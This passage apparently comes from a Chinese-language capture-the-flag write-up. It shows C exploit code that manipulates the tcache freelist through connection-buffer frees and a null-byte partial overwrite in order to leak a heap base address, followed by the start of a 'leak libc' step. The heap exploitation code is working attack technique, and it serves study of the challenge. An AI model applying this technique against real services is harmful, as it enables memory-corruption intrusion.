 ```
    write(conns[13], "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", 0x20);
    yield();
    write(conns[14], "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB", 0x20);
    write(conns[15], "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC", 0x20);
    yield();

    // close A buffer, places pointer to it in tcache freelist head
    close(conns[13]);
    yield();

    // bug: free B, and auf write two nullbytes into free'd B memory.
    // partially overwrites tcaches next pointer pointing to A.
    write(conns[15], "\0", 1);
    close(conns[14]);
    yield();

    // allocate two 0x30 chunks, Y is likely to be placed inside the 0x10000 area
    conns[13] = conn();
    conns[14] = conn();
    write(conns[13], "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX", 0x20);
    yield();
    write(conns[14], "YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY", 0x20);
    yield();

    // free Y chunk, writes heap base into 0x10000 area
    close(conns[14]);
    yield();

    // read the buffer back in by sending '\n'
    write(conns[0], "\n", 1);
    // skip the hello message, linus would insult me for writing this code
    do {
        read(conns[0], chunk, 1);
    } while(*chunk != '\n');
    readall(conns[0], chunk, 0x10000);

    // search for heap address
    size_t *leak = memmem(chunk, 0x10000, "YYYYYYYY", 8);
    if (!leak) {
        puts("heapbase not found :(");
        exit(0);
    }
    size_t heapbase = leak[-1];
    printf("heapbase located at: 0x%lx\n", heapbase);
```


###### leak libc

- 构造0x30的chunk覆盖到0x810大小的chunk的位置
![](./img/10.png)